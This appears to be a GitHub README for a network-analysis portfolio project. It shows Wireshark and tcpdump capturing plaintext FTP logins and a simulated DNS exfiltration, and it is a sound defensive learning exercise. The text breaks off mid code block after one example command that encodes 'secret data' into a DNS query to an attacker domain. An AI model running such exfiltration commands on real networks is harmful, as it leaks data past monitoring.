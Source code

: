 # 🔍 Network Traffic Analysis with Wireshark & tcpdump

## 📘 Overview
This project demonstrates how to use Wireshark and tcpdump on Kali Linux to capture and analyze different types of network traffic. It focuses on identifying insecure protocols and suspicious behaviors such as plaintext credentials and data exfiltration through DNS.

The goal is to showcase practical network analysis skills relevant to cybersecurity roles such as SOC Analyst and Security Analyst.

---

## 🛠️ Tools Used
- Kali Linux (2024.1)
- Wireshark
- tcpdump
- FTP server (vsftpd or Metasploitable)
- Dig / Iodine for DNS testing

---

## 🧪 Traffic Analysis

### 1️⃣ FTP Login in Plaintext

- **Capture File:** `ftp_login.pcap`
- **Scenario:** A user logs into an FTP server using unencrypted credentials.
- **Findings:** The credentials were clearly visible in the packet capture.
  
#### 🔎 Key Observations:
- FTP transmits credentials in plaintext.
- Wireshark filter used: `ftp.request`
- Captured `USER` and `PASS` commands with values.

📷 **Screenshot:**  
![FTP Login](screenshots/ftp_login.png)

---

### 2️⃣ DNS Exfiltration Attempt

- **Capture File:** `dns_exfiltration.pcap`
- **Scenario:** A client encodes sensitive data into DNS queries.
- **Findings:** Suspiciously long or randomized domain names that indicate potential exfiltration.

#### 🔎 Key Observations:
- Used `dig` to simulate exfiltration:
  ```bash
  dig verysecretdata.attacker-domain.com

